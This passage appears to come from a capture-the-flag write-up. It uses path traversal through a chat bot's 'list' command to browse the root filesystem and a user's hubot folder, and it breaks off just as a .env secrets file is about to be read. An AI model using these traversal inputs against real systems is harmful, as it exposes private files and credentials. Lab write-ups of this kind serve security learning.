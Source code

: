 ```text
list

Fetching the directory listing of /sales/
drwxr-xr-x 2 dwight dwight 27 Sep 15 13:03 sale
drwxr-xr-x 2 dwight dwight 27 Jul 3 2021 sale_2
```

There's nothing interesting here, but you can do path traversal to see other folders:

```text
list sale/../../../../

Fetching the directory listing of sale/../../../../
-rw-r--r-- 1 root root 0 Jan 14 06:07 .autorelabel
lrwxrwxrwx 1 root root 7 Jun 22 2021 bin -> usr/bin
dr-xr-xr-x. 4 root root 4096 Jan 14 06:46 boot
drwxr-xr-x 20 root root 3020 Feb 6 09:40 dev
drwxr-xr-x. 145 root root 8192 Feb 6 09:40 etc
drwxr-xr-x. 3 root root 20 Jan 14 06:50 home
lrwxrwxrwx 1 root root 7 Jun 22 2021 lib -> usr/lib
lrwxrwxrwx. 1 root root 9 Jun 22 2021 lib64 -> usr/lib64
drwxr-xr-x. 2 root root 6 Jun 22 2021 media
drwxr-xr-x. 3 root root 18 Jun 22 2021 mnt<
<SNIP>
```

If you look in Dwight's home you'll see a folder called hubot:

```text
list sale/../../../../home/dwight

Fetching the directory listing of sale/../../../../home/dwight
<SNIP>
-rwxr-xr-x 1 dwight dwight 1174 Sep 16 06:58 bot_restart.sh
drwx------ 8 dwight dwight 4096 Sep 16 07:57 hubot
-rw-rw-r-- 1 dwight dwight 18 Sep 16 07:24 .hubot_history
```

Looking in the hubot folder we have a number of files:

```text
list sale/../../hubot/

Fetching the directory listing of sale/../../hubot/
drwx--x--x 2 dwight dwight 36 Sep 16 07:34 bin
-rw-r--r-- 1 dwight dwight 258 Sep 16 07:57 .env
-rwxr-xr-x 1 dwight dwight 2 Jul 3 2021 external-scripts.json
drwx------ 8 dwight dwight 163 Jul 3 2021 .git
-rw-r--r-- 1 dwight dwight 917 Jul 3 2021 .gitignore
-rw-r--r-- 1 dwight dwight 296856 Feb 6 15:01 .hubot.log
```

We can see the contents of files using the command file instead of list. This is the contents of the .env file we can see in the folder:
